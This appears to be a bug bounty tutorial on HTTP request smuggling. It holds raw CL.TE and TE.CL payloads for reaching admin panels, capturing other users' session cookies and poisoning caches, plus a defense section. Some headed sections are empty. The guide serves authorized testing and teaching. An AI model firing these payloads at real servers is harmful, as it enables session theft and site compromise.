


# HTTP Request Smuggling (Desync Attacks)

## When to Use
- When the target application architecture involves a front-end load balancer, reverse proxy, or CDN (e.g., Cloudflare, HAProxy, AWS ALB) mapping to a diverse back-end server.
- When you need to bypass a front-end WAF or access restricted internal administration panels.
- To execute high-impact attacks against other users, such as capturing their HTTP requests containing session cookies, or poisoning the front-end cache with malicious responses.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Identifying the Infrastructure Flaw

```text
# Concept: HTTP/1.1 allows specifying request boundaries via Content-Length (CL) OR 
# Transfer-Encoding: chunked (TE). If you send BOTH headers, and the Front-end and 
# Back-end servers prioritize different ones, they will disagree on where the request ends.

# Requirement: You must carefully manipulate line endings (`\r\n`). Do not let tools 
# auto-update your Content-Length header!

# 1. Probing for CL.TE (Front-end uses CL, Back-end uses TE)
# If vulnerable to CL.TE, this request triggers a timeout or severe delay.

POST / HTTP/1.1
Host: target.com
Content-Length: 4
Transfer-Encoding: chunked

1
Z
Q

# Explanation: Front-end reads 4 bytes ("1\r\nZ"). Back-end reads chunked encoding, 
# sees chunk size 1 ('Z'), then expects the next chunk size but gets 'Q'. It hangs waiting for termination.

# 2. Probing for TE.CL (Front-end uses TE, Back-end uses CL)
POST / HTTP/1.1
Host: target.com
Content-Length: 6
Transfer-Encoding: chunked

0

X

# Explanation: Front-end reads chunks, sees 0 (end of chunk), forwards request. 
# Back-end reads Content-Length 6. It reads past the "0\r\n\r\n" and waits for 'X' to complete the 6 bytes.
```

### Phase 2: Exploitation - CL.TE Bypassing Front-End Controls

```text
# Goal: Access the `/admin` panel, which the front-end proxy normally blocks.

# Payload:
POST / HTTP/1.1
Host: target.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost


# What happens:
# 1. Front-end uses Content-Length (43 bytes). It considers this ENTIRE block as ONE request and forwards it.
# 2. Back-end uses Transfer-Encoding. It reads the "0" and considers the first request FINISHED.
# 3. The Back-end sees the left-over bytes (`GET /admin...`) and assumes it is the START of the NEXT incoming HTTP request.
# 4. You successfully smuggled a request to `/admin` hidden inside a normal POST request.
```

### Phase 3: Exploitation - Capturing Other Users' Requests

```text
# Goal: Force the back-end to append the NEXT innocent user's request onto your smuggled request.

# Payload (Smuggling a request to a comment form that reflects data back to us):
POST / HTTP/1.1
Host: target.com
Content-Length: 176
Transfer-Encoding: chunked

0

POST /post_comment HTTP/1.1
Host: target.com
Content-Length: 800
Content-Type: application/x-www-form-urlencoded

comment=Please capture this:

# What happens:
# 1. We smuggle the POST comment request. 
# 2. Notice our smuggled request claims Content-Length: 800, but we provide no more bytes.
# 3. The Back-end waits.
# 4. An innocent victim browses to the site: `GET / HTTP/1.1\r\nCookie: session=xyz...`
# 5. The Back-end receives the victim's request, but assumes it's the missing 800 bytes of OUR comment payload!
# 6. We check our comments page and see the victim's raw HTTP request, including their session cookie.
```

### Phase 4: Exploitation - Cache Poisoning via Smuggling

```text
# Goal: Instruct the front-end cache to map a malicious response to an innocent URL.

# Payload:
POST / HTTP/1.1
Host: target.com
Content-Length: 130
Transfer-Encoding: chunked

0

GET /malicious-xss-endpoint HTTP/1.1
Host: target.com


# What happens:
# 1. Attacker sends the smuggled payload. 
# 2. IMMEDIATELY, attacker requests `GET /innocent-script.js`.
# 3. The Back-end answers the smuggled request (`/malicious-xss-endpoint`) and sends it down the socket.
# 4. The Front-end receives the malicious response, but it thinks it is the response to `GET /innocent-script.js`!
# 5. The Front-end caches the malicious file as `innocent-script.js`. Entire site is compromised.
```

#### Decision Point 🔀



### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **HTTP/2**: Adopt HTTP/2 end-to-end. HTTP/2 uses strict, binary framing for requests (streams) rather than parsing string-based line endings, completely destroying the ambiguity necessary for Request Smuggling.
- **Header Normalization**: Configure front-end proxies to unconditionally strip or normalize conflicting headers. If a request contains BOTH `Content-Length` and `Transfer-Encoding`, the proxy must reject it entirely with an HTTP 400 Bad Request.
- **Connection Reuse**: Although not ideal for performance, disabling back-end HTTP connection reuse (Keep-Alive) forces the proxy to open a new TCP socket for every parsed request, preventing smuggled bytes from bleeding into subsequent user requests.

## Key Concepts
| Concept | Description |
|---------|-------------|
| CL.TE | Front-end uses Content-Length, Back-end relies on Transfer-Encoding |
| TE.CL | Front-end uses Transfer-Encoding, Back-end relies on Content-Length |
| Request Smuggling | Exploiting parsing discrepancies to hide a secondary HTTP request inside the body of a primary HTTP request |

## Output Format
```
Bug Bounty Report: Admin Bypass via HTTP Request Smuggling
==========================================================
Vulnerability: HTTP Request Smuggling (CL.TE)
Severity: Critical (CVSS 9.8)
Target: Front-end CDN -> Backend Application Cluster

Description:
The application's front-end CDN prioritizes the `Content-Length` header, while the backend application servers prioritize the `Transfer-Encoding: chunked` header. This discrepancy allows an attacker to smuggle hidden HTTP requests within normal POST bodies. 

By smuggling a request to the restricted `/admin/delete_user` endpoint, the attacker can execute administrative actions, completely bypassing the CDN's Web Application Firewall (WAF) and path-based access controls.

Reproduction Steps:
1. In Burp Repeater, disable "Update Content-Length" in the top menu.
2. Send the following CL.TE payload:
   POST / HTTP/1.1
   Host: target.com
   Content-Length: [size]
   Transfer-Encoding: chunked

   0\r\n
   \r\n
   POST /admin/delete_user?id=5 HTTP/1.1\r\n
   Host: localhost\r\n
   \r\n
3. Observe the admin action executing on the backend.

Impact:
Critical. Complete bypass of all front-end routing and security controls. Potential for mass account takeover by capturing subsequent users' session cookies mapped to the attacker's smuggled request body.
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (HTTP Request Smuggling)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **Multiple HackerOne** | $5K-$25K | (Various) | CL.TE / TE.CL desync → cache poisoning → mass ATO | 2023-2025 |

**Key Lesson**: Request smuggling is rare and high-value because it affects ALL users via cache
poisoning. James Kettle (PortSwigger) pioneered the modern techniques. The key is testing 
both CL.TE and TE.CL configurations plus TE.TE obfuscation variants.

**Detection technique that finds real bugs:**
```
POST / HTTP/1.1
Host: target.com
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
If the next request gets a `405 Method Not Allowed` for "GPOST", the frontend and backend
disagree on request boundaries → CL.TE smuggling confirmed.

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- PortSwigger: [HTTP request smuggling](https://portswigger.net/web-security/request-smuggling)
- PortSwigger: [Advanced Request Smuggling (HTTP/2)](https://portswigger.net/research/http2)
- RFC 7230: Section 3.3.3 (Message Body Length)
